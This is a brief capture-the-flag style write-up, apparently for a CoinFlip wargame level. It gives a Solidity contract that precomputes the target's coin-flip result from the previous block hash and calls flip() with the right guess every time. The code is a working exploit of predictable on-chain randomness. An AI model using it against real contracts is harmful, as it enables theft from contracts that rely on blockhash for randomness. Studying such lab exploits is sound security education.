 # Answer

Goal: Guess flip outcome 10 times in a row.

## 1. Guessing the flip outcome

The ```flip()``` outcome can be pre-calculated before the function call using a wrapper contract and guessed correct every time:

```solidity
contract CoinFlipExploit {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip c;

    event FlipResult(bool r);

    constructor (address coinFlipAddr) {
        c = CoinFlip(coinFlipAddr);
    }

    function exploit() external {
        bool calculatedGuess = getFlipResult();
        emit FlipResult(c.flip(calculatedGuess));
    }

    function getFlipResult() internal view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1;
    }
}
```